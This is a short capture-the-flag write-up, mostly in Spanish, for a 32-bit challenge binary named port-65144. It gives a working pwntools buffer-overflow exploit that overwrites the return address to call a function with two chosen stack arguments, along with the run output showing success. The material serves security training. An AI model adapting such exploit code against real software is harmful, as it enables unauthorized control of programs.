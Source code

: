 Esta función tiene 2 argumentos sabiendo que en 32 bits los argumentos van por la stack, es fácil. Puedo ver que el primer argumento debe ser igual a `0x9c` y el segundo `300`, así que hagamos un script `exploit.py`:

```python
#!/usr/bin/env python
import pwn

# pwn.context.log_level = 'debug'

f1 = pwn.p32(0x8049256)      # function address
f1arg1 = pwn.p32(0x9c)       # 1st argument
f1arg2 = pwn.p32(300)        # 2nd argument

buff = 'A' * 172             # our buffer with 172 A

"""
Now we put all together
buffer + function address + 'JUNK' + first argument + second argument
"""
payload = buff.encode() \
    + f1 \
    + 'JUNK'.encode() \
    + f1arg1 \
    + f1arg2

open('payload.txt', 'w').write(payload.decode('iso-8859-1'))

elf = pwn.ELF('./port-65144')
p = elf.process()
p.sendline(payload)

print('=========================')
print('what the process returned')
print(p.recv().decode())
```

Ok, este exploit vai nos devolver:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ python3 exploit.py
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process '/home/reisraff/workdir/challs/port-65144/port-65144': pid 976
=========================
what the process returned
Enter your buffer: gotcha func1

```
